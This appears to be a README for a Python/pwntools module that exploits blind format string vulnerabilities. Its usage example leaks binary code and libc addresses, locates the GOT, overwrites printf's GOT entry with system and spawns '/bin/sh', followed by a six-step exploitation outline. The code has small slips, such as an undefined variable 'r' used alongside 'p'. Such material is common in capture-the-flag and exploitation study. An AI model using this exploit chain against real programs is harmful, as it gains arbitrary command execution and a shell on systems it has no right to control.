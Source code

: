 ## Blind Format String Exploitation 
This is a module to exploit blind format string vulnerability  

### How to use it ?
```python
from pwn import *
from frmstr import *

p = process('blind')
saveSocket = p

base_addr = 0x08048000

data = leak_code(r,263,2,0x0804852b,10) # leak_code(r,offset,pad,start_addr,size)
print disasm(data,arch='i386')
d, dynamic_ptr = leak_libc_ptr(p,base_addr)
system_libc  = leak_libc(d,'system')
fprintf_libc = leak_libc(d,'fprintf')

got_addr = find_got(p,dynamic_ptr)
printf_got = resolve_got(got_addr, fprintf_libc)

send_payload(p,printf_got, system_libc,6)
#send_rev_payload(r,0x804a020,0xbffff92c,261)
p.sendline('/bin/sh\x00')
p.interactive()
p.close()

```

#### Steps For Exploitation
1) leak the code

2) leak Libc usinf pwntools Dynelf module

3) leak .dynamic ptr and then GOT table addr 

4) leak printf_got

5) Overwrite printf_got with system addr </p>

6) send /bin/sh 
